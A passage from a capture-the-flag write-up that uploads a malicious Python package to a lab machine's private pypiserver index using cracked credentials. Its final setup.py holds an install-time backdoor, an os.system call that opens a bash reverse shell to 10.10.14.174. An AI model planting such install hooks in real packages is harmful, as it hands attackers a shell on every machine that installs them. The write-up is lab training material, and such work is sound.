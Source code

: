 We can connect to the package index () basic auth
with the cracked credentials `pypi` / `soufianeelhaoui`.

But no package is indexed yet.

RTFM. Letr's read the [Uploading Packages Remotely](https://pypi.org/project/pypiserver/#uploading-packages-remotely) page
of pypiserver documentation.

The first thing we will need to upload a package is `~/.pypirc`.

```ini
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```

And of course we will need `setup.py` for setuptools.

Let's look at the [Minimal Structure](https://python-packaging.readthedocs.io/en/latest/minimal.html) required:

```
cyfun/
    cyfun/
        __init__.py
    setup.py
```

`setup.py`

```python
from setuptools import setup

setup(name='cyfun',
      version='0.1',
      description='cyfun de mon pwnage',
      url='https://pwn.by/cyfun',
      author='cyfun',
      author_email='cyfun@example.com',
      license='MIT',
      packages=['cyfun'],
      zip_safe=False)
```

Let's run `python setup.py sdist upload -r local` to package it and upload
it.

Then we can see the package cyfun indexed and removed a few seconds later.
Let's add a backdoor in the package.

```python
from setuptools import setup
import os
os.system("echo 'bash -i >&/dev/tcp/10.10.14.174/8080 0>&1' | /bin/bash")

setup(name='cyfun',
      version='0.1',
      description='cyfun de mon pwnage',
      url='https://pwn.by/cyfun',
      author='cyfun',
      author_email='cyfun@example.com',
      license='MIT',
      packages=['cyfun'],
      zip_safe=False)
```
